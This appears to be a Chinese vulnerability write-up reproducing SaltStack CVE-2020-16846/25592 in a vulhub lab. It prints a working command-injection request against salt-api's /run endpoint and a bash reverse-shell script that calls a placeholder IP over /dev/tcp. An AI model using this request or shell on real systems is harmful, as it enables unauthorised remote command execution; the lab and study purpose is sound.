 # SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

## 漏洞影响

<a-checkbox checked>SaltStack Version 3002</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3001.1, 3001.2</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3000.3, 3000.4</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2019.2.5, 2019.2.6</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2018.3.5</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2017.7.4, 2017.7.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.11.3, 2016.11.6,2016.11.10</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.3.4, 2016.3.6,2016.3.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2015.8.10, 2015.8.13</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 **FileLocation:Classname.method()**

**salt/netapi/init.py:NetapiClient.run()**

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165558077.png)



low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给**kwargs。**

当client参数为ssh时，动态调用**salt/netapi/init.py:NetapiClient.ssh()**, 该方法未采用任何鉴权。

**salt/netapi/init.py:NetapiClient.ssh()**



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551777.png)



跟进，路径如下：

**salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()**

**salt/client/ssh/client.py:SSHClient._prep_ssh()**



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554779.png)



该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

`salt/client/ssh/init.py:SSH.__init__()`

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552768.png)



priv的值从opts变量中获取，并调用`salt.client.ssh.shell.gen_key()`方法

`salt/client/ssh/shell.py:gen_key()`

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551783.png)

```shell
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554420.png)



反弹shell的方法，先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165553216.png)

监听端口，使用 **/bin/bash** 运行文件 反弹shell

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552939.png)

## 参考文章

<a-alert type="success" message="https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag" description="" showIcon>
</a-alert>
<br/>